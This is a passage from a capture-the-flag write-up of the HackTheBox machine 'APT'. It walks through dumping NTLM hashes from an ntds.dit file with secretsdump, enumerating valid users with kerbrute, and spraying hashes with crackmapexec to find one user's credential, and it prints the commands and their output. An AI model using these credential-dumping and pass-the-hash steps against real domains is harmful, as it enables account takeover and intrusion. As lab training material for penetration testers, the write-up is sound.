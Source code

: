 Interesting. We can use `secretsdump.py` to get all the hashes out, and there were A LOT. A few thousand to be specific.&#x20;

```
$ impacket-secretsdump -ntds Active\ Directory/ntds.dit -system registry/SYSTEM LOCAL > hashes
```

There was no way the machine had 2000 users, so we need to first find out which are the valid users.

### User Brute --> Hash Brute

We can first use `grep` to retrieve the users present in the file. Each user's entry ends with `:::`, which we can use `grep` to retrieve and then `awk` to print out the first field.&#x20;

```
$ grep ':::' hashes | awk -F ':' {'print $1'}  > users
```

I also added the following entry to my `/etc/hosts` file:

```
dead:beef::b885:d62a:d679:573f htb.local dc.htb.local
```

Afterwards, we can brute force this using `kerbrute` as per Hacktricks:

```
$ ~/usefulfiles/kerbrute_linux_amd64 userenum -d htb.local --dc dc.htb.local ~/htb/apt/users
2023/06/22 15:45:27 >  [+] VALID USERNAME:       APT$@htb.local
2023/06/22 15:45:27 >  [+] VALID USERNAME:       Administrator@htb.local
2023/06/22 15:49:39 >  [+] VALID USERNAME:       henry.vinson@htb.local
```

So we do have one valid-user present. The only problem is now we need to find the correct hash for this user, of which there are 2000 hashes...

We can still do roughly the same thing to get the hashes from the dump file, and then use `crackmapexec` to test the hashes.&#x20;

```
$ grep ':::' hashes | awk -F ':' {'print $4'}  > ntlm_hashes
$ crackmapexec smb htb.local -u henry.vinson -H ntlm_hashes
```

The machine has some type of protection in place preventing brute force, since I cannot run two brute force scans back to back (`kerbrute` and then `crackmapexec` for example) without it closing my connection and blocking my IP address.

Anyways, we will eventually find the right hash:

```
SMB         htb.local       445    APT              [+] htb.local\henry.vinson:e53d87d42adaa3ca32bdb34a876cbffb 
```

### PTH Reg Query

We cannot use this hash to `evil-winrm` in unfortunately, as it seems this user is not part of the Remote Management Group. However, this does not stop us from retrieving tickets as the user. We can use `getTGT.py` to request for a TGT.
